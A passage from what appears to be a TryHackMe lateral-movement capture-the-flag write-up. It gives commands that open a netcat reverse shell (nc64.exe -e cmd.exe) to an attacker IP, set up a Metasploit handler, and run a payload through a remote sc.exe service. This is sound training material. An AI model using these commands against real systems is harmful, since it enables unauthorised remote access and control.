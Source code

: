    SMBCLIENT

   Now we must ssh into THMJMP2 as Tony and setup an `nc` listener on our attackbox. Make sure to use a different port than in the payload you created.

   **Attackbox**
   
   ```cmd
   nc -nlvp 1338
   ```

   **THMJMP2**

   ```cmd
   ssh za.tryhackme.com\\tony.holland@thmjmp2.za.tryhackme.com

   runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe 10.50.77.144 1338"
   ```

   RUNAS

   Now we should get a shell on the jumpserver. We can now create and run a service on the thmiis server using our payload executable after we set up a listener using MSF.

   Be sure to set the correct payload, otherwise the shell will drop.

   ```cmd
   msfconsole
   use exploit/multi/handler
   set LHOST 10.50.77.144
   set LPORT 1337
   run
   ```

   HANDLER

   ```cmd
   sc.exe \\thmiis.za.tryhackme.com create service-kevinovitz binPath= "%windir%\letmein-kevinovitz.exe" start= auto

   sc.exe \\thmiis.za.tryhackme.com start service-kevinovitz
   ```
   
   SERVICE

   CONNECTION

   Now that we have a connection to the thmiis server, we can look for the flag on Leonards desktop.

   FLAG

   ><details><summary>Click for answer</summary></details>

### Moving Laterally Using WMI

1. After running the "flag.exe" file on t1_corine.waters desktop on THMIIS, what is the flag?

   First we create another payload using `msfvenom` and send it to the thmiis server using the found credentials.

